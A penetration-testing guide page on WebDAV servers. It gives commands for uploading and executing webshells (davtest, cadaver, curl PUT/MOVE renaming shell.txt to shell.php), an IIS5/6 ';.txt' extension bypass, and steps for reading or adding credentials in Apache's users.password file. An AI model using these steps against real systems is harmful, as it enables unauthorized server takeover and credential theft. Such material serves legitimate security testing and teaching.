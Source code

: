 WebDav

A HTTP Server with WebDav active is a server where you probably can update, delete, move, copy files. Sometimes you need to have valid credentials (usually check with HTTP Basic Authentication).

You should try to upload some webshell and execute it from the web server to take control over the server.
Usually, to connect a WebDav server you will need valid credentials: WebDav bruteforce (Basic Auth).

Other common configuration is to forbid uploading files with extensions that will be executed by the web server, you should check how to bypass this:

    Upload files with executable extensions (maybe it's not forbidden).

    Upload files without executable extensions (like .txt) and try to rename the file (move) with an executable extension.

    Upload files without executable extensions (like .txt) and try to copy the file (move) with executable extension.

DavTest

Davtest try to upload several files with different extensions and check if the extension is executed:

davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension

Output sample:

This doesn't mean that .txt and .html extensions are being executed. This mean that you can access this files through the web.
Cadaver

You can use this tool to connect to the WebDav server and perform actions (like upload, move or delete) manually.

cadaver <IP>

PUT request

curl -T 'shell.txt' 'http://$ip'

MOVE request

curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'

IIS5/6 WebDav Vulnerability

This vulnerability is very interesting. The WebDav does not allow to upload or rename files with the extension .asp. But you can bypass this adding at the end of the name ";.txt" and the file will be executed as if it were a .asp file (you could also use ".html" instead of ".txt" but DON'T forget the ";").

Then you can upload your shell as a ".txt" file and copy/move it to a ".asp;.txt" file. An accessing that file through the web server, it will be executed (cadaver will said that the move action didn't work, but it did).
Post credentials

If the Webdav was using an Apache server you should look at configured sites in Apache. Commonly:
/etc/apache2/sites-enabled/000-default

Inside it you could find something like:

ServerAdmin webmaster@localhost
        Alias /webdav /var/www/webdav
        <Directory /var/www/webdav>
                DAV On
                AuthType Digest
                AuthName "webdav"
                AuthUserFile /etc/apache2/users.password
                Require valid-user

As you can see there is the files with the valid credentials for the webdav server: 

/etc/apache2/users.password

Inside this type of files you will find the username and a hash of the password. These are the credentials the webdav server is using to authenticate users.

You can try to crack them, or to add more if for some reason you wan to access the webdav server:

htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password

To check if the new credentials are working you can do:

wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
